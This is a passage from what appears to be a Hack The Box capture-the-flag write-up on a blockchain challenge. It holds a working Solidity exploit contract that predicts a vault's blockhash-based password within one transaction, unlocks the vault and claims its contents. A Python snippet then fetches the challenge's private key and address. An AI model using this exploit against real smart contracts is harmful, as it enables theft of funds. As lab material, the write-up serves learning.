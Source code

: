 ````markdown

I created a contract that replicates the vault's password generation logic:

```solidity
interface IVault {
    function owner() external view returns (address);
    function nonce() external view returns (uint256);
    function unlock(bytes16 _password) external;
    function claimContent() external;
}

contract VaultExploit {
    function _generateKey(uint256 _reductor, uint256 nonce) private view returns (uint256 ret) {
        ret = uint256(keccak256(abi.encodePacked(uint256(blockhash(block.number - _reductor)) + nonce)));
    }
    
    function _magicPassword(uint256 startNonce, bytes32 passphrase) private view returns (bytes8) {
        uint256 _key1 = _generateKey(block.timestamp % 2 + 1, startNonce);
        uint128 _key2 = uint128(_generateKey(2, startNonce + 1));
        bytes8 _secret = bytes8(bytes16(uint128(uint128(bytes16(bytes32(uint256(uint256(passphrase) ^ _key1)))) ^ _key2)));
        return (_secret >> 32 | _secret << 16);
    }
    
    function exploit(address vaultAddress, bytes32 passphrase) external {
        IVault vault = IVault(vaultAddress);
        address owner = vault.owner();
        uint256 currentNonce = vault.nonce();
        
        uint64 ownerLower = uint64(uint160(owner));
        
        bytes8 magicPwd = _magicPassword(currentNonce, passphrase);
        uint128 _secretKey = uint128(bytes16(magicPwd) >> 64);
        uint64 secretLower = uint64(_secretKey);
        
        bytes16 password = bytes16((uint128(ownerLower) << 64) | uint128(secretLower));
        
        vault.unlock(password);
        vault.claimContent();
    }
}
```

The key insight is that `_generateKey` is a pure function that only depends on blockhash and nonce. Since we're calling everything in the same transaction:
- Same block number → same blockhashes
- We read the current nonce before the vault increments it
- Our calculations match the vault's exactly

### Step 1: Get Connection Info Automatically

I wrote the script to automatically fetch credentials from the HTB endpoint:

```python
BASE_URL = "http://83.136.249.47:46625"

response = requests.get(f"{BASE_URL}/connection_info", timeout=5)
conn_info = response.json()

RPC_URL = f"{BASE_URL}/rpc"
PRIVATE_KEY = conn_info['PrivateKey']
YOUR_ADDRESS = conn_info['Address']
````